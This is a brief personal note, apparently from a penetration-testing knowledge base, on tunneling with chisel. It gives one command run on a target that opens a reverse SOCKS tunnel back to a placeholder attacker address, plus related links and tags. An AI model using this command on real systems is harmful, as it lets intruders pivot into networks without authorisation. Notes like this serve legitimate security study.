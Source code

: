 # tunneling through chisel Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# Related
- [20221003150110](/zet/20221003150110/README.md) tunneling through chisel
- ~/kb/networking/port-forwarding.md

Tags:
    #assorted #networking #port
